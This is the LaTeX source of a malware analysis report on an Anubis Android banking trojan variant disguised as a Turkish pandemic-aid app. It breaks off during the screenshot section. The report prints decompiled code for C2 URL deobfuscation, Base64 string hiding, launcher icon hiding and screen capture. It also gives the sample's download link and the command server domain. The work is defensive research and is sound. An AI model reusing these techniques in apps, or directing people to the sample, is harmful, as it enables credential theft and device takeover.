\documentclass[10pt,titlepage]{article}
\usepackage[a4paper,lmargin={1cm},rmargin={1cm},tmargin={1.3cm},bmargin = {1.3cm}]{geometry}\usepackage{amssymb}\usepackage{amsthm}\usepackage{graphicx}
\def\theequation{\thesection.\arabic{equation}}
\usepackage{float}
\usepackage{spverbatim}
\usepackage{listings}

\begin{document}
\begin{titlepage}

\centering

\iffalse
\twocolumn

	\includegraphics[width=0.15\textwidth]{gleipnirtheme.png}\par
\fi	

\vspace*{1cm}
	\vspace{2cm}
	\vspace{1.5cm}
	{\huge\bfseries Anubis - pandemi destek\par}
	\vspace{1.5cm}
	{\Large\itshape An Anubis malware variant targeted for turkish market\par}
	\vspace{2cm}
	{\Large\scshape Sascha Roth\par}
	\vfill
	\vfill


% Bottom of the page
	{\large \today\par}
	\vspace{2cm}
	{\itshape funker2013@gmail.com\par}
	{\itshape Viehtriftstrasse 61, 67354 Roemerberg, RLP, Germany\par}
\end{titlepage}

\pagenumbering{arabic}
\setcounter{page}{1}

\section{ABSTRACT}
This work includes an analyzis of the Anubis malware variant \textbf{pandemidestek} discovered on 12.06.2020.

\begin{description}
\item[SHA256] 231d970ea3195b3ba3e11e390b6def78a1c8eb5f0a8b7dccc0b4ec4aee9292ec
\item[name] pandemidestek.apk
\item[Virustotal] https://www.virustotal.com/gui/file
\\ /231d970ea3195b3ba3e11e390b6def78a1c8eb5f0a8b7dccc0b4ec4aee9292ec/detection
\item[Source] https://dosya.org/f.php?h=0G8rhXAJ\&d=1
\end{description}

In December 2016 the the article "Android BOT from scratch" was published in which source code of a new Android banking trojan was shared. The first malware based on this code was spotted in January 2017 and from then on all derived Malware was called \textbf{BANKBOT}. Over time the malware was improved heavily and a second version of the malware was crafted named \textbf{ANUBIS}.\cite{ALLSTARTEDWITHBANKBOT} \cite{ANUBISTRENDMICRO}

In March 2020 an articel was published telling about banking Tojan campaigns against Turkish banks meme to ba "gift" from the'r mobile carrier due to COVID-19 Virus \ref{COVID19REF}. \cite{ANUBISTURKEY2020} 


Related work of an older version of the malware can be found here: https://medium.com/@fs0c131y/reverse-engineering-of-the-anubis-malware-part-1-741e12f5a6bd

\section{KEYWORDS}
	Android,
    Security,
    Anubis,
    Malware,
    Reverse engineering

\section{INTRODUCTION}
In the long history of the Anubis and Bankbot malware there were lot of modifications, targets and improvements to harvest banking information and much more. Starting with COVID-19 pandemic lot of actors started using Anubis malware to abuse the human disaster to spread and attack countries like Italy or Turkey. This work shall analyze and describe latest features of the malware discovered on June, 6th 2020.

Here are some facts to identify this version of the malware:
\begin{description}
\item[SHA256] 231d970ea3195b3ba3e11e390b6def78a1c8eb5f0a8b7dccc0b4ec4aee9292ec
\item[name] pandemidestek.apk
\item[Virustotal] https://www.virustotal.com/gui
\\  /file/231d970ea3195b3ba3e11e390b6def78a1c8eb5f0a8b7dccc0b4ec4aee9292ec/detection
\item[Source] https://dosya.org/f.php?h=0G8rhXAJ\&d=1
\end{description}

\subsection{RELATED WORK}
In October 2018 the blogger \textbf{Elliot Anderson} published a analyzis of the at this time latest version of the Anubis malware \cite{REVEANUBIS}. It was called "HD TV Italy" and had arround 1.000 downloads from Google Play.
His version of the malware was wrapped into a loader which loaded the acually code of the malware at runtime.

\newpage
\section{OBSERVED RUNTIME BEHAVIOUR} \label{runtimebehaviour}

\subsection{THE TEST SYSTEM}

Because this malware is targeted to turkey marked a test environment that matches to the common share of android versions. An Android API of 26 represents the median of Android versions in turkey \cite{TURKEYANDROIDVERSIONS} and possibily let us explore more features of the malware since newer Android versions are more restricted. We choose an Emulator in order to make reproduce the observations and debugging more easy (Intel x86 Atom System Image, API 26, Revision 1). We try to use a rooted image in order to debug the malware without the need of repackaging. In order to verify if the behaviour is equal to a real device this procedure will be done on a real device with same Android version.


\subsection{INSTALLATION}
In order to install the APK on our emulator we perform the following adb command

\begin{verbatim}
adb install pandemidestek.apk
\end{verbatim}

Now we can open to the launcher and launch the malware.


\subsection{1. START THE APP}
First observation after the user started the App is the Accessibility settings screen is opened. A toast message is showing up telling to grant accessibility permission to "pandemidestek" wich matches to our app name (see more in THE MANIFEST chapter). Even leaving this screen by clicking the HOME button enforces the settings activity to appear again (see attached video \textbf{anubis\_startup.webm} and Screenshot \ref{fig:anubis_open_accessibiltiy}). 

%\linewidth%

\begin{figure}[H]
  \begin{center}
  
\includegraphics[width=7cm]{anubis_accessibility.png}
  \end{center}
  \caption{Anubis forces the Accessibility Settings screen to be opened.}
  \label{fig:anubis_open_accessibiltiy}
\end{figure}


\subsubsection{APP ICON HIDDEN}
At this time the App icon is hidden from launcher and the user is not able to launch the App anymore (see attached video \textbf{anubis\_startup.webm}). Now the user has to enter the settings to remove the app.

The data folder of the app at this stage has size about 2.11MB.



\subsection{2. GRANT ACCESSIBILITY PERMISSION}
In order to continue the runtime behaviour we grant the Accessibility permission and the annoying popup of the Accessibility screen disappears.



\subsection{3. WITHDRAW ACCESSIBILITY PERMISSION}
Enter the Accessibility settings of "pandemistek" causes the settings screen to be closed 
\\  ( see video \textbf{settings\_closed\_when\_accessibility\_service\_info\_is\_entered.webm}).

\subsection{4. UNINSTALL THE APP}
While trying to uninstall the App from settings the Settings screen will be closed when App info screen get's visible (see video \textbf{settings\_closed\_when\_appinfo\_screen\_is\_entered.webm}).

\newpage
\section{MALWARE ANALYZIS}
This chapter is intended to highlight the functionality of the core features of the malware.

\subsection{ENVIRONMENT}
Several tools are used to analyze this malware. Some of them are intended for static code and others for runtime analyzis.

\begin{description}
\item[Android Studio] Android Studio offers the option to profile or debug APK's. It is possible review the App code in Smali code as well as attach the debugger in order to perform runtime analyzis. In order to debug release Apps a rooted device / emulator is required. (https://developer.android.com/studio)
\item[Jadx] This tool decompiles the App source code into Java and supports searching for references and definition. 
\\ (https://github.com/skylot/jadx)
\item[bash] One of the most famous linux shells. Some scripts require bash.
\item[grep] Very powerfull tool installed by default on most of Linux OS derivates.
\item[frida (optional)] Crossplatform hooking framework with powerfull features. In this description we try to use the Java debugger but you could potentially perform the same actions using frida and place hooks to the described breakpoints.
\end{description}

\subsubsection{DEBUGGER AND BREAKPOINTS}
In order to analyze and understand how this malware works a debugger can be used to set breakpoints to important function invocations.

Here is a list of breakoints used:

\begin{description}
\item[android.view.accessibility.AccessibilityEvent.recycle()] Will be called after the accessibility event was processed by the anubis service. In the debugger the full event content is visible
\item[android.os.IBinder.transact()] Will be called while communicate with Android middleware services. This can be used to record system calls made by the malware.
\item[android.accessibilityservice.AccessibilityService.performGlobalAction] This can be used by the malware to inject some global events like press back button or home button etc.
\item[java.net.URLConnection.connect] Monitor all connection of the malware done via URLConnection. This is discovered multiple times in source code mostly in the function \textit{naqsl.ebxcb.exu.fddo.int\$fddo.fddo()}
\end{description}

\subsubsection{API USAGE}
In order to determine what Android API the malware is using the following snippet can be used to get a full list. Before doing that it's required to decompile the malware classes to smali code (REFERENCE smali).

\begin{spverbatim}
grep -oh -e "L.*;"  -R . | sort -u > ./used_classes.txt
\end{spverbatim}

This will produce output visible in listing \ref{usedclassesexample} and is used while research different malware features.

\begin{lstlisting}[label=usedclassesexample,caption=Example output of the API usage script..,frame=tb]
Ldalvik/system/DexClassLoader;
Ldalvik/system/DexClassLoader;-><init>(Ljava/lang/String;Ljava/lang/String;Ljava/lang/String;Ljava/lang/ClassLoader;
Ldalvik/system/DexClassLoader;->loadClass(Ljava/lang/String;)Ljava/lang/Class;
[...]
\end{lstlisting}

\newpage
\subsubsection{THE MANIFEST} \label{manifest}
Analyze the \textit{AndroidManifest.xml} of the malware tells a lot about the power of the malware. Permissions for example can be used to identify possible device ressources the malware can access. Listing \ref{usedpermissions} lists all permissions the malware can be granted. Most of those permissions need the user to grant at runtime \cite[guide/topics/permissions/overview]{AndroidDev}.

\begin{lstlisting}[label=usedpermissions,caption=Permissions defined in the Manifest of the malware,frame=tb]
	<uses-permission
        android:name="android.permission.INTERNET" />
    <uses-permission
        android:name="android.permission.ACCESS_NETWORK_STATE" />
    <uses-permission
        android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
    <uses-permission
        android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <uses-permission
        android:name="android.permission.WAKE_LOCK" />
    <uses-permission
        android:name="android.permission.GET_TASKS" />
    <uses-permission
        android:name="android.permission.RECEIVE_BOOT_COMPLETED" />
    <uses-permission
        android:name="android.permission.REQUEST_IGNORE_BATTERY_OPTIMIZATIONS" />
    <uses-permission
        android:name="android.permission.PACKAGE_USAGE_STATS" />
    <uses-permission
        android:name="android.permission.SYSTEM_ALERT_WINDOW" />
    <uses-permission
        android:name="android.permission.ACCESS_COARSE_LOCATION" />
    <uses-permission
        android:name="android.permission.ACCESS_FINE_LOCATION" />
    <uses-permission
        android:name="android.permission.FOREGROUND_SERVICE" />
    <uses-permission
        android:name="android.permission.CALL_PHONE" />
    <uses-permission
        android:name="android.permission.SEND_SMS" />
    <uses-permission
        android:name="android.permission.RECORD_AUDIO" />
    <uses-permission
        android:name="android.permission.READ_CONTACTS" />
    <uses-permission
        android:name="android.permission.READ_PHONE_STATE" />
    <uses-permission
        android:name="android.permission.RECEIVE_SMS" />
    <uses-permission
        android:name="android.permission.READ_SMS" />
    <uses-permission
        android:name="android.permission.WRITE_SMS" />
    <uses-permission
        android:name="android.permission.KILL_BACKGROUND_PROCESSES" />
    <uses-permission
        android:name="android.permission.ACCESS_WIFI_STATE" />
    <uses-permission
        android:name="android.permission.CHANGE_WIFI_STATE" />
    <uses-permission
        android:name="android.permission.MODIFY_PHONE_STATE" />
    <uses-permission
        android:name="android.permission.MODIFY_AUDIO_SETTINGS" />
    <uses-permission
        android:name="android.permission.CHANGE_NETWORK_STATE" />
\end{lstlisting}

Another interesting finding is the existence of a Service with the \textbf{android.permission.BIND\_ACCESSIBILITY\_SERVICE} permission means the malware is using the Accessibility Framework \cite[/guide/topics/ui/accessibility/service]{AndroidDev}.

Next finding is an \textit{BroadcastReceiver} with a huge amount of \textit{actions} defined as \textit{intent-filter}. Those will allow the malware to get active automatically when one of the system events is fired (see Listing \ref{usedintentfilters}).

\begin{lstlisting}[label=usedintentfilters,caption=Intent filter actions defined in the \textit{AndroidManifest.xml},frame=tb]
<intent-filter
  android:priority="979">
  <action
    android:name="android.intent.action.BOOT_COMPLETED" />
  <action
    android:name="android.intent.action.QUICKBOOT_POWERON" />
  <action
    android:name="com.htc.intent.action.QUICKBOOT_POWERON" />
  <action
    android:name="android.intent.action.USER_PRESENT" />
  <action
    android:name="android.intent.action.PACKAGE_ADDED" />
  <action
    android:name="android.intent.action.PACKAGE_REMOVED" />
  <action
    android:name="android.provider.Telephony.SMS_RECEIVED" />
  <action
    android:name="android.intent.action.SCREEN_ON" />
  <action
    android:name="android.intent.action.EXTERNAL_APPLICATIONS_AVAILABLE" />
  <category
     android:name="android.intent.category.HOME" />
  <action
    android:name="android.net.conn.CONNECTIVITY_CHANGE" />
  <action
    android:name="android.net.conn.CONNECTIVITY_CHANGE" />
  <action
    android:name="android.net.wifi.WIFI_STATE_CHANGED" />
  <action
    android:name="android.intent.action.DREAMING_STOPPED" />
</intent-filter>
\end{lstlisting}

The version settings in the Manifest are telling that the malware must be at least from 2018 \cite[/studio/releases/platforms]{AndroidDev}.

\begin{lstlisting}[label=versionconfiguration,caption=Sdk version configuration defined in the \textit{AndroidManifest.xml},frame=tb]
    android:compileSdkVersion="28"
    android:compileSdkVersionCodename="9"
    package="naqsl.ebxcb.exu"
    platformBuildVersionCode="28"
    platformBuildVersionName="9">
\end{lstlisting}

\subsubsection{DATA STRUCTURE} \label{datastructure}
After the malware was launched the data structure was analyzed. There was nothing to be found except of a \textit{SharedPreference} file located at \textbf{shared\_prefs/set.xml}. Listing \ref{sharedpreferences} lists the full content of this file. Some values of this configuration file are obfuscated (see more in chapter \ref{stringobf}.

Some interesting findings are the obfuscated \textit{urls} value, the \textit{url} value pointing to \textbf{http://hangikapi.com} (see a screenshot in figure \ref{fig:hangikapiscreenshot}).
Analyzis of the Server side is not included in this work.

\begin{figure}[H]
  \begin{center}
  
\includegraphics[width=\linewidth]{hangikapicom.png}
  \end{center}
  \caption{Screenshot of the \textbf{http://hangikapi.com} Web page. In the background the page itself and above the popup that appears by perform a click on the \textbf{Privacy Policy} link.}
  \label{fig:hangikapiscreenshot}
\end{figure}

\newpage
\begin{lstlisting}[label=sharedpreferences,caption=The content of \textit{SharedPreference} file \textbf{shared\_prefs/set.xml}.,frame=tb]
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="foregroundwhile"></string>
    <string name="permissions_granted">NO</string>
    <string name="timeStartGrabber"></string>
    <string name="sound">start</string>
    <string name="stringDisableProtect2">TURN OFF</string>
    <string name="StringActivate">activate</string>
    <string name="buttonPlayProtect"></string>
    <string name="recordsoundseconds">0</string>
    <string name="vnc">start</string>
    <string name="lock_amount"></string>
    <string name="VNC_Start_NEW">http://hangikapi.com</string>
    <string name="gps">false</string>
    <string name="checkStartGrabber">0</string>
    <string name="isAccessbility">true</string>
    <string name="swspacket">com.android.mms</string>
    <string name="startRequest">Access=0Perm=0</string>
    <string name="urls">Nzg4M2UyODljODM1MThkZThkZjE1YzBjNGFmMTM4ZWNiY2U0MzY3Yw==
    </string>
    <string name="str_push_fish"></string>
    <string name="interval">10000</string>
    [...]
    <string name="straccessibility">start now</string>
    <string name="time_start_permission">2725</string>
    <string name="network">false</string>
    <string name="StringPermis">Allow</string>
    <string name="uninstall1">uninstall</string>
    <string name="getNumber">false</string>
    <string name="uninstall2">to remove</string>
    <string name="name">false</string>
    <string name="play_protect"></string>
    <string name="StringAccessibility">Enable access for</string>
    <string name="Starter">http://hangikapi.com</string>
    [...]
    <string name="keylogger"></string>
    <string name="url">http://hangikapi.com</string>
    <string name="textPlayProtect"></string>
    <string name="forpm">false</string>
    <string name="del_sws">false</string>
    <string name="straccessibility2">to start</string>
    [...]
    <string name="cryptfile">false</string>
    <string name="startRecordSound">stop</string>
    <string name="RequestGPS"></string>
    <string name="spamSMS"></string>
    <string name="step">0</string>
    <string name="madeSettings">1 2 3 4 5 6 7 8 9 10 11 12 13 </string>
    <string name="time_work">2050</string>
    <string name="B_DID">47e77e41c673b8c2</string>
    <string name="RequestINJ"></string>
    <string name="lock_btc"></string>
    <string name="isReconnected">false</string>
    [...]
    <string name="key"></string>
    <string name="indexSMSSPAM"></string>
    [...]
    <string name="stringDisableProtect3">Scan apps with Play Protect</string>
    <string name="vkladmin">include</string>
    <string name="isFirstInstall">false</string>
    <string name="save_inj"></string>
    <string name="iconCJ">0:0</string>
</map>
\end{lstlisting}



\subsection{STARTUP AND INITIALIZATION}
\subsubsection{RETRIEVE THE DEFAULT URL}
A potential bot is inteded to communicate somehow in order to retrieve commandos what to do. Also most of malware applications are collecting data and transfer them to somewehere. Mostly this is done via a Web server that collects data and provides resources the malware can fetch at runtime. Potentially the malware can fetch multiple of those target URLs using an initial URL. This URL is very sensitive information because it tells a lot about the attacker and a potential Web host service could shutdown the server if this information is public also this malware is trying to obfuscate the default url(s). The function \textit{naqsl.ebxcb.exu.ifdf.ifdf()} is intended to deobfuscate those at runtime (see Listing \ref{deobfuscateurls}).

\begin{lstlisting}[label=deobfuscateurls,caption=The function \textit{naqsl.ebxcb.exu.ifdf.ifdf()} deobfuscates the default URLs.,frame=tb]

    public ifdf() {
        String str = "::";
        this.f601fddo = "Eylem::gerek::prokaz::ne::disarida:: [...]
        sb.append(this.f601fddo[6]);
        sb.append(this.f601fddo[20]);
        sb.append(this.f601fddo[28]);
        sb.append(this.f601fddo[39]);
        sb.append(this.f601fddo[10]);
        sb.append(this.f601fddo[15]);
        sb.append(this.f601fddo[30]);
        this.ifdf = sb.toString();
        this.f475int = "Eylem::gerek::prokaz::ne::disarida:: [...]
        sb2.append(this.f475int[6]);
        sb2.append(this.f475int[20]);
        sb2.append(this.f475int[28]);
        sb2.append(this.f475int[39]);
        sb2.append(this.f475int[10]);
        sb2.append(this.f475int[15]);
        sb2.append(this.f475int[30]);
        sb2.append(this.f475int[40]);
        this.f476new = sb2.toString();
        this.f477try = false;
        this.f469byte = "<urlImage>";
        this.f470case = true;
        this.f471char = 15;
        this.f472else = 0;
        this.f474goto = 1;
    }
\end{lstlisting}

The resulting URLs are:

\begin{spverbatim}
http://hangikapi.com
http://hangikapi.com/tx.php
\end{spverbatim}


\subsubsection{CORE SERVICES}\label{featureselection}

This chapter is intended to tell how the malware launches, enables or disables particular features. In general the definition what service is currently enabled or disabled is persistently stored in the \textit{SharedPreferences} (see chapter \ref{datastructure}). 

The Service \textit{naqsl.ebxcb.exu.ServiceCommands} is one of the core services of the malware. The service can be started with a command argument telling which attack shall be started. Most of features will be started and configured in this service. The function \textit{naqsl.ebxcb.exu.ServiceCommands.fddo()} is a very huge function intended to parse the command argument and configure the malware feature.

In contrast the Service \textit{naqsl.ebxcb.exu.StartWhileGlobal} is the first background service started within the \textit{naqsl.ebxcb.exu.Activity.MainActivity} while the malware is launched first time. and is intended to perform the first commands when the malware gets launched. It starts some initial features like disable Google Play Protect (see more at \ref{playprotect}), upload the file system structure and more.

\newpage
\subsection{MALWARE FEATURES}
The malware offers multiple feauteres which can be enabled or disabled from remote servers. The following list will give a rough overview of them.

\begin{description}
\item[String obfuscation (chapter \ref{stringobf}] Nearly all strings in bytecode and some generated at runtime are obfuscated using Base64.
\item[Hide app (chapter \ref{hideapp})] After the malware app was launched by the user the malware icon disappears from the launcher
\item[Screenshot (chapter \ref{screenshot}] The malware is able to perform screenshots and transfer them to a Web server
\item[SMS stealing (chapter \ref{smsstealing})] The malware can read sms messages and transfer them to a web server
\item[SMS SPAM (chapter \ref{smsspam})] Queries the contact list and sends SMS to each entry.
\item[Disable Play Protect (chapter \ref{playprotect})] The malware has code intended to disable or bypass Google Play Protect
\item[Keylogger and event injection (chapter \ref{keylogger})] The malware is able to log touches, screen content and keystrokes made by the user. This includes potentially credentials, payment information and much more. 
\item[Prevent uninstall (chapter \ref{keylogger})] The malware prevents to be uninstalled by the user.
\item[Prevent withdraw permissions (chapter \ref{keylogger})] The malware prevents the from withdraw permissions to the malware.
\item[Location tracking (chapter \ref{locationtracking})] The malware is able to track GPS position and forwards it to the server.
\item[Push injection (chapter \ref{pushinjection})]  The malware is able to inject push messages meme to belong to another App.
\item[Activity injection (chapter \ref{activityinjection})] The malware starts an Activity meme to be another App and harvest credentials and other sensitive information.
\item[Enter USSD codes (chapter \ref{ussdcodes})]  |ussd=    |endUssD The malware is able to enter USSD codes \cite{GSMTechnicalSpec}.
\item[Lock screen] The malware is able to show an black overlay that cannot be closed by pressing home or back button, It just overrides the \textit{android.app.Activity.onKeyDown()} and \textit{android.app.Activity.onBackPressed()} methods.
\item[Find and upload files] The malware can retrieve instructions to search for files and upload them to a Web server.
\end{description}

The next chapters will explain most of the features listed above.



\newpage
\subsubsection{SRING OBFUSCATION} \label{stringobf}

The malware obfuscates it's hardcoded strings in the dex bytecode as well as some runtime generated strings passed into the \textit{SharedPreferences}.

The function \textit{naqsl.ebxcb.exu.Cint.int()} is used to deobfuscate the strings at runtime just before they're used by instructions (see Listing \ref{base64fun}).

\begin{lstlisting}[label=base64fun,caption=The function \textit{naqsl.ebxcb.exu.Cint.int()} deobfuscates the given string using the \textit{android.util.Base64.decode()} function.,frame=tb]
    public static String int(String str) {
        try {
            return new String(Base64.decode(str, 0), "UTF-8");
        } catch (Exception e) {
            e.printStackTrace();
            return "null";
        }
    }
\end{lstlisting}


Some strings are obfuscated twice, mostly that strings generated at runtime and thus the result of the first base64 call must be put as argument of another base64 call.



\subsubsection{HIDE APP ICON} \label{hideapp}
In order to hide itself the malware disables the \textit{MainActivity} component using the \textit{setComponentEnabledSetting} function and passing the parameter \textit{COMPONENT\_ENABLED\_STATE\_DISABLED} (see Listing \ref{mainactivityoncreate}. This causes the App icon to dissapear \cite[reference/android/content/pm/PackageManager]{AndroidDev}.

\begin{lstlisting}[label=mainactivityoncreate,caption=\textit{MainActivity.onCreate} calls \textit{setComponentEnabledSetting} with \textit{COMPONENT\_ENABLED\_STATE\_DISABLED} parameter in order to let the App icon disappear in the launcher.,frame=tb]
public class MainActivity extends Activity {
[...]
    public void onCreate(Bundle bundle) {
       [...]
        getPackageManager()
           .setComponentEnabledSetting(new ComponentName(this, MainActivity.class), 2, 1);
\end{lstlisting}

\newpage
\subsubsection{SCREENSHOT} \label{screenshot}
The API usages showed that the malware is using the \textit{android.media.projection.MediaProjectionManager.createScreenCaptureIntent()} function inside the \textit{naqsl.ebxcb.exu.API.Screenshot.ActivityScreenshot}Activity (see Listing \ref{mediaprojmanagerapiusage}). 

\begin{lstlisting}[label=mediaprojmanagerapiusage,caption=List of calls to \textit{android.media.projection.MediaProjectionManager.createScreenCaptureIntent} tells that the malware tries to do screenshots.,frame=tb]
Landroid/media/projection/MediaProjectionManager;
Landroid/media/projection/MediaProjectionManager;
           ->createScreenCaptureIntent()Landroid/content/Intent;
Landroid/media/projection/MediaProjectionManager;
           ->getMediaProjection(ILandroid/content/Intent;)
           Landroid/media/projection/MediaProjection;
\end{lstlisting}

In the \textit{naqsl.ebxcb.exu.API.Screenshot.ActivityScreenshot.onCreate}
function \textit{startActivityForResult} is called with the screen-capture intent as parameter. Once the screenshot request was processed the \textit{onActivityResult} is called with passes the results into an intent intended to start the \textit{naqsl.ebxcb.exu.API.Screenshot.ServiceScreenshot} service.

Here the \textit{android.media.projection.MediaProjectionManager.getMediaProjection}
is called which parses the results and returns a \textit{android.media.projection.MediaProjection} object. This will be passed as argument into a call to \textit{android.media.projection.MediaProjection.createVirtualDisplay}
. Once a screenshot was made the function \textit{naqsl.ebxcb.exu.API.Screenshot.onImageAvailable} will be called. Here the image will be decoded and asynchronous written into a file called \textbf{screenshot.jpg} (see Listing \ref{savescreenshot}).
\begin{lstlisting}[label=savescreenshot,caption=The malware stores the screenshot into the external files dir with filename \textbf{screenshot.jpg}.,frame=tb]
            File file = new File(
                              ServiceScreenshot.this.getExternalFilesDir(null),
                              "screenshot.jpg");
            try {
